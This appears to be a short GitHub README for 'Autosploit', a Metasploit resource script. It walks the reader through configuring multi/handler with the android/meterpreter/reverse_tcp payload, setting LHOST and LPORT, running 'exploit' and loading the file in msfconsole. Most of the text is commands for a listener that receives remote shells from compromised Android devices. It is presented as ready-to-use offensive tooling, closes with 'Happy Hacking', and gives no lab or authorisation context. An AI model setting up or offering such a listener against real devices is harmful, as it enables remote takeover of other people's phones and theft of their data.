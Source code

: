 # Autosploit

This is a script that allows you to automate Metasploit using simple process.....

## Changes Needed

You need to change the file for your work

First you need to change the First Line for your work. For example I have used:
```
use multi/handler
```

Change the payload. Here for example I have used: 
```
android/meterpreter/reverse_tcp
```
Then change LHOST to your IP by typing ``` ifconfig ``` or ```sudo ifconfig```.

```
set LHOST <Your IP>
```
Then add the PORT. You can give any PORT number
```
set LPORT <Your PORT>
```
And now I have written ``` exploit``` to exploit the payload.

## Run Automate Script

For running the automate script you need to type ```msfconsole``` as usual. THen after Msfconsole loaded type ```resource <location of the file>```. Here inthe place of 
```<location of the file>``` type the file locatio with file name.
## Happy Hacking
